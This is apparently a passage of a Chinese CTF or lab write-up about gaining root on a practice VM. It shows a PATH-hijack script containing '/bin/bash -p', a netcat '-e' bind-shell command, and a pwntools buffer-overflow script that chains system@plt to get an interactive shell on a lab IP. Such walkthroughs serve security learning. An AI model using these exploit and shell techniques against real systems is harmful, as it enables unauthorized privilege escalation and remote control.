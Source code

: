 ![](./images/image-225.png)

可以看到即使不是以**root**身份运行也可以成功

那么现在要做的就是，在靶机上声明环境变量，然后创建可执行文件**（s）**，然后把二进制文件挂载到端口上

```
he110wor1d@singdancerap:~/thekey2root$ cat s
/bin/bash -p
he110wor1d@singdancerap:~/thekey2root$ chmod +x s
he110wor1d@singdancerap:~/thekey2root$ export PATH=.:$PATH
he110wor1d@singdancerap:~/thekey2root$ nc -lvp 12345 -e ./thekey2root
```

然后修改一下**pwn**脚本

```
from pwn import *

# 设置上下文和程序路径
context(arch='i386', os='linux')
elf = ELF('./thekey2root')  # 替换为你的程序名

# 获取函数地址
sing_dance_rap_addr = elf.symbols['sing_dance_rap']
system_addr = elf.plt['system']

s_addr = 0x804a03e # 替换为实际地址

# 构造payload
payload = b'/bin/sh\x00'        # 将/bin/sh写入缓冲区
payload += b'A' * (32 - len(payload))  # 填充至32字节
payload += p32(sing_dance_rap_addr)    # 覆盖返回地址到sing_dance_rap
payload += p32(system_addr)            # sing_dance_rap返回后执行system
payload += p32(0xdeadbeef)             # system的返回地址（占位）
payload += p32(s_addr)

# 启动进程并发送payload
p = remote('192.168.56.116',12345)
p.send(payload)  # 使用send而非sendline避免附加换行符
p.interactive()   # 进入交互模式
```
